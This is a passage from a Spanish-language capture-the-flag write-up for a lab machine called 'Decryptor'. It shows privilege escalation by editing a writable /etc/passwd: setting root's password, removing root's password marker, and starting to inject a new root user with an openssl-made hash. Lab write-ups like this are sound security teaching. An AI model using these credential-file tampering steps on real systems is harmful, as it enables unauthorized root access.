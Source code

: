 Guárdalo y ciérralo.

Autentícate como **Root** con la contraseña que usaste:
```bash
chiquero@Decryptor:~$ su
Password: 
root@Decryptor:/home/chiquero# whoami
root
```
Listo, ya somos **Root**.

<br>

<h3 id="Privesc2">Eliminando Contraseña del Usuario Root</h3>

Otra cosa que podemos hacer, es solamente eliminar la contraseña del **Root**. Lo que nos permitiría autenticarnos como **Root** sin tener que dar una contraseña.

Solo abre el `/etc/passwd` y elimina la x:

<p align="center">
<img src="/assets/images/THL-writeup-decryptor/Captura8.png">
</p>

Guárdalo y ciérralo.

Ya solamente autentícate como **Root**:
```bash
chiquero@Decryptor:~$ su
root@Decryptor:/home/chiquero# whoami
root
```
Listo, volvimos a ser **Root**.

<br>

<h3 id="Privesc3">Inyectando Usuario en /etc/passwd y Dandole Permisos de Root</h3>

Como tal, no podemos crear un usuario, ya que nuestro usuario actual no tiene los permisos necesarios.

Lo que sí podemos hacer, es inyectar un usuario dentro del `/etc/passwd`.

Crea una contraseña random con **openssl**:
```bash
chiquero@Decryptor:~$ openssl passwd hack123
$1$XcEUPl6S$xZJcD3/GIQGf26XA9hK7O.
```
Vamos a copiar la sintaxis del **usuario Root** descrito en el `/etc/passwd`, para crear un usuario random y poder inyectarlo.
